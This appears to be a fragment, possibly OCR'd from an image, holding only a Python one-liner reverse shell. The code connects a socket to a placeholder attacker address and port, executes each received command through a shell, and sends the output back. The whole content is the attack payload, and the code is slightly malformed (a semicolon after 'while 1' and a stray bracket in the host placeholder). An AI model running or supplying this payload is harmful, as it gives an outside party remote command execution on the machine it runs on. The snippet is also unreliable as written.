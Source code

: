 python -c "exec(\"import socket, subprocess;s = socket.socket() ; s.connect(('IPADDR>',<PORT>))\n while 1; proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE); s.send(proc.stdout.read()+proc.stderr.read())\")"
